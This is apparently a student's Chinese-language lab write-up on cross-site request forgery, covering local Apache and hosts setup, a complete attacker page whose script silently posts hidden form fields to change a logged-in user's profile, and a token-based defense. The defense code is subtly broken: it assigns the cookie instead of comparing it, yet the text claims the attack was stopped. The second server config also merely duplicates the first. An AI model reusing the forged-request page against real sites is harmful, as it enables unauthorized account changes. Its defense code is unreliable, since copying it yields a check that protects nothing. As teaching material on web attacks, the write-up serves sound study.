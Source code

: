 ```yaml
---
layout: post
title: 跨站请求伪造攻击
---
```


_Dong 2015210938_

_2016.04.23_

## CSRF:跨站请求伪造攻击
### 攻击简介
在网络环境中，用户使用单个浏览器浏览可信任网页，攻击者利用恶意网站以受害用户的身份向可信任网站发起恶意请求。
### 实验原理
在用户使用账号密码登陆到可信任站点后，受信任站点会在web浏览器存储cookie，并且在接下来的操作中不需要进行身份验证。这样恶意网站就可以使用脚本通过浏览器提交恶意请求到受信任站点，因为之前已经进行过了身份验证，受信任站点接受恶意请求操作。
### 实验步骤
#### 配置网站
首先启动apache2和mysql_safe，让本地服务器启动起来。

	sudo service apache2 start
	sudo mysqld_safe

并且配置DNS域名解析，将模拟域名都解析到本地，添加一下内容到`/etc/hosts`中

	127.0.0.1	www.heyheyattacker.com
	127.0.0.1	www.heyheynormal.com

并且在`/etc/apache2/conf.d/lab1.conf`和`/etc/apache2/conf.d/lab2.conf`中分别配置网站

	<VirtualHost *:80>
		ServerName http://www.heyheyattacker.com
		DocumentRoot /var/www/CSRF/Attacker/
	</VirtualHost>


	<VirtualHost *:80>
		ServerName http://www.heyheyattacker.com
		DocumentRoot /var/www/CSRF/Attacker/
	</VirtualHost>
#### **攻击**
在攻击者的服务器里制作个攻击网页。其中包含提交恶意申请的javascript脚本。
将以下内容的作为文件`index.html`保存在`/var/www/CSRF/Attacker`中：

	<html><body><h1>
	This page forges an HTTP POST request.
	</h1>
	<script>
	function post(url,fields)
	{
	//create a <formelement.
	var p = document.createElement('form');
	//construct the form
	p.action = url;
	p.innerHTML = fields;
	p.target = '_self';
	p.method = 'post';
	//append the form to the current page.
	document.body.appendChild(p);
	//submit the form
	p.submit();
	}
	function csrf_hack()
	{
	var fields;
	// The following are form entries that need to be filled out
	// by attackers. The entries are made hidden, so the victim
	// won't be able to see them.
	fields += "<input type='hidden' name='name' value='peter'>"; //修改用户名
	fields += "<input type='hidden' name='userfile' value=''>";  
	fields += "<input type='hidden' name='company' value='seed'>";  //修改公司名
	post('http://www.heyheynormal.com/manageuser.php?action=edit',fields);
	}
	// invoke csrf_hack() after the page is loaded.
	window.onload = function() { csrf_hack(); }
	</script>
	</body></html>

其中`csrf_hack()`函数中的：

	fields += "<input type='hidden' name='name' value='peter'>"; //修改用户名
	fields += "<input type='hidden' name='userfile' value=''>";  
	fields += "<input type='hidden' name='company' value='seed'>";  //修改公司名
	post('http://www.heyheynormal.com/manageuser.php?action=edit',fields);

即为提交恶意请求的关键。

实验结果：在用户登录之后，访问`www.heyheyattacker.com`。用户的账号信息被更改，用户名被更改为`peter`，公司改为`seed`。

在打开`www.heyheyattacker.com`之后，用户的信息便被修改。
#### **防御**
可以通过添加伪随机数的方法来防御跨站攻击。

实验中通过将document.cookie提交给要访问的可信任站点，并在之后的操作中可信任站点都对这个值进行验证，如果攻击者不能窃取可信任网站的cookie则在提交恶意请求时，不能通过可信任站点的有效验证，则攻击失效。

在可信任网页`/var/www/CSRF/Collabtive/templates/standard/edituserform.tpl`提交POST时提交一个隐藏的input，值为`document.cookie`。

而后可信任站点在接受到请求后在`manageuser.php`中对值进行验证

	...
	$sid = getArrayVal($_POST, "sid");
	...
	if($_COOKIE["PHPSESSID"]=$sid)
	...

实验结果：再次访问`www.heyheyattacker.com`并不能对用户信息进行更改。

### 实验思考
CSRF攻击利用的是，用户在进行登录验证之后，和可信任站点交互不会再进行相互认证这个漏洞。因此只要想法在用户登录之后能有信息似的用户和可信任站点之间能够相互验证，并且在攻击者不能获得这份信息的前提下，就能有效避免这类攻击，就像这里的cookie信息。


----------
实验来自`实验楼`

